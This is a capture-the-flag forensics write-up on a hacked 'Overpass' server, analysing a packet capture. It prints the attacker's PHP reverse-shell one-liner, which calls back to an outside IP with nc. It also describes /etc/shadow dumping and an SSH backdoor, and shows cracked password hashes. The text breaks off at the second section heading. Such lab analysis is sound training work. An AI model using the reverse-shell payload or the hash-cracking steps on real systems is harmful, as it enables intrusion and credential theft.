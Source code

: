 # Overpass 2 - Hacked
Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

---

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

---

### 1 - Forensics - Analyse the PCAP

One of the best practices to analyze pcap files is to follow TCP streams and see what data is being exchanged over which protocol and so on.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/190a6772-f0ea-4206-a3b1-1659c80eac41)


To navigate more easily between streams, use the stream field in the bottom right corner of the stream window.\
We can see that in stream 1, the attacker is uploading a php file to `/development/`. Based on the content of the file, the payload is php reverse shell.
```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

TCP stream number 2 shows that the attacker requested the malicious php file to get that reverse shell.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/e064e9a8-1c86-4605-8d01-322031992d2b)

Moving to stream number 3. This is where we can see the full action of the attacker once got a foothold into the machine.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/4ed1baa0-b59f-404c-9d65-a32f1a479b5f)

The attacker first switched to James' account to which he has access to the password. Then he listed commands that can be executed by James with root privileges (`sudo -l`). Because James can execute whatever command as root (bad practice), the attacker was able to dump all password hashes from `/etc/shadow` and install an `ssh-backdoor` for persistence. The backdoor runs an SSH server on port 2222 that the attacker can connect to as he possesses a valid RSA private key.

Back to the password hashes, we can crack 4 of them using the `fasttrack` wordlist.
```
$ john hashes.txt -wordlist:fasttrack.txt 

Loaded 5 password hashes with 5 different salts (crypt, generic crypt(3) [?/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secuirty3        (paradox)
abcd123          (szymex)
secret12         (bee)
1qaz2wsx         (muirland)
```

### 2 - Research - Analyse the code



